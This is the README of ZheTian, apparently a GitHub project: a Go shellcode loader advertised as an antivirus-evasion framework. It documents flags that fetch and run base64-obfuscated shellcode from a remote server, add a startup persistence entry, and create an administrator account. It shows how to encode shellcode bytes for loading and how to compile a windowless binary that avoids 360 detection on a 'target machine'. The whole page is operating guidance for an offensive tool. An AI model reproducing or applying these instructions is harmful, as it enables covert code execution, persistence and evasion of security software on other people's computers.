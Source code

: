 ![my-logo.png](https://raw.githubusercontent.com/yqcs/ZheTian/master/images/logo.png "my-logo")

# [ZheTian](https://github.com/yqcs/ZheTian/)

## ZheTian Powerful remote load and execute ShellCode tool，免杀shellcode加载框架

### 命令详解

> -u：从远程服务器加载base64混淆后的字节码。
>
> -r：从本地文件内读。
>
> -s：读取无修改的原始文件，只能从本地加载
>
>-o：参数为true自动向启动项添加自启模块。
>
>-n：向管理员组创建用户，-n的参数即为账户，-p的参数为密码。需以管理员身份运行
>
>-c：直接从命令行获取base64字符串。如：ZheTian -c ZmM0ODgzZTRmMGU4Yzg4YjUyMjA4YjQyM2M==...
>
## `·`如果releases里下载的可执行程序被安全软件查杀了，请下载源码重新编译一份！`·`

## 示例：

### Base64字符串方式加载：

原始python代码：
>buf = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75..."

只需提取数组中的16进制代码：
>\xfc\x48\x83\xe4\xf0\xe8\xc8\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75...
> 
然后去除\x，得到：
> fc4883e4f0e8c88b52208b423c4801d0668178180b0275......
>
然后使用base64转码，得到：
> ZmM0ODgzZTRmMGU4Yzg4YjUyMjA4YjQyM2M0ODAxZDA2NjgxNzgxODBiMDI3NQ==
>
c、ruby等同理，Java之流的则是去除  ", 0x"。注意，是逗号空格0x
>byte buf[] = new byte[] { 0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc8, 0x00, 0x00, 0x00, 0x41};
> 

获取到base64字符串之后可以选择放到远程服务器加载，使用-u 命令即可。也可以放到本地文件内，或者直接使用-c命令以命令行方式运行。如：ZheTian.exe -c ZmM0ODgzZTRmMGU4Yzg4YjUyMjA4YjQyM2M0ODAxZDA2NjgxNzgxODBiMDI3NQ==
### 原文件读取类型：

使用 `ZheTian -h `命令可查看支持的语言。推荐使用Java、py、C语言。原文件无需进行任何修改即可直接加载，但是不支持放在远程服务器，只能通过本地 -s 命令读取，如： `ZheTian -s C:/Windows/Temp/payload.java`

### 编译：

> go build -ldflags "-w -s" -o ZheTian.exe 

可以使用
> go build -ldflags "-w -s -H windowsgui" -o ZheTian.exe

实现无窗口运行。但是360偶尔会识别为恶意程序。如果目标机器无安全设备，可以尝试使用此命令打包，然后使用参数： ` -o true` 实现写入启动项功能。

#### 带图标编译：

> 先执行：go get github.com/akavel/rsrc
>
> rsrc -manifest ZheTian.manifest -ico favicon.ico -o ZheTian.syso
>
>再执行go build -ldflags "-w -s" -o ZheTian.exe
>
> 更多介绍：https://blog.csdn.net/qq_38376348/article/details/108318880
>
![my-logo.png](https://raw.githubusercontent.com/yqcs/ZheTian/master/images/1.png "my-logo")

### 注意：打包的时候需指定是64位还是32位。默认会根据系统自动选择。 而在生成payload shellcode的时候也需要选择正确的位数，否则会加载失败。使用code字节码加载时一定要使用base64加密，否则无法解析！！

## 有问题可以提Issues，也可加微信联系

![my-logo.png](https://raw.githubusercontent.com/yqcs/ZheTian/master/images/wx.jpg "my-logo")
